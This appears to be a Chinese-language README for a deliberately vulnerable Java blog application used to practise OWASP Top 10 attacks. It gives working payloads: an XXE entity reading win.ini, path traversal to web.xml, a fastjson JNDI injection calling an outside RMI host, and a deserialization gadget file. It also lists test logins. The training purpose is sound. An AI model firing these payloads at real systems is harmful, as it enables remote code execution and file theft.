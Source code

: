# Blog
漏洞验证平台，主要为测试owasp top 10漏洞


# A1注入：search.htm

# A2失效的身份认证和会话管理：登录页无限制，可暴力破解
![image](https://user-images.githubusercontent.com/1740718/131211872-d518d5c2-44c7-4110-a53e-c6845272f71d.png)

# A3敏感信息泄漏：file.htm  download.htm?fileName=../WEB-INF/web.xml

# A4 XXE:login2.htm

xml=<!DOCTYPE%20foo%20[<!ELEMENT%20foo%20ANY><!ENTITY%20abc%20SYSTEM%20"file:///c:/windows/win.ini">]><login><username>%26abc;</username><password>fdsf</password></login>

# A5失效的访问控制：水平越权 管理后台-》读取博客

登录帐号：
test/test
tridentj/tridentj

# A6安全配置错误：暂无

# A7 XSS：search.htm  

&lt;img src="img/1.png" /&gt;

# A8不安全的反序列化:upload.htm (apache-commons-collections-3.2.1) resources目录下cc.bin windows下弹出计算器

# A9：fastjson 1.2.24前反序列化漏洞
http://localhost:8080/blog/updateUserInfo.htm

部署环境，参考resources/dependency/fastjson

json提交框中输入以下内容：
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://10.2.13.27:9999/Poc","autoCommit":true}
![image](https://user-images.githubusercontent.com/1740718/133755384-f98ca858-daa6-4642-99eb-47dacd51f858.png)



# A10：无

![image](https://user-images.githubusercontent.com/1740718/131211747-2be958b6-4c49-4a79-b442-2ed0787443de.png)
![image](https://user-images.githubusercontent.com/1740718/168001817-4b62b8ab-d417-42d5-8cf6-a1a3c9e4019a.png)

# log4j RCE
http://localhost:8080/blog/login.htm

